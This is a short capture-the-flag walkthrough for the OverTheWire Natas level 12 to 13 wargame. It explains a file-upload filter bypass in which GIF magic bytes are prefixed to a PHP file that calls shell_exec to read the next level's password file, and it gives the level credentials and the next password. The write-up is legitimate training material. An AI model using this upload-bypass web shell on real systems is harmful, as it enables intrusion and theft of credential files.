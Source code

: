 # Level 12 → Level 13

## Details
Username: `natas13`<br />
Password: `lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9`<br />
URL:      http://natas13.natas.labs.overthewire.org

## Solution
<img src="./0.png"></img>

<img src="./1.png"></img>

<img src="./2.png"></img>

So, we will take magic bytes of an image of some type, for example **gif** with bytes `GIF87a`, and inject it to the beginning of the previous php file.

```php
# get_password.php
GIF87a<?php
echo shell_exec("cat /etc/natas_webpass/natas14");
?>
```

<img src="./3.png"></img>

<img src="./4.png"></img>

<img src="./5.png"></img>


## Password for the next level:
```
qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
```
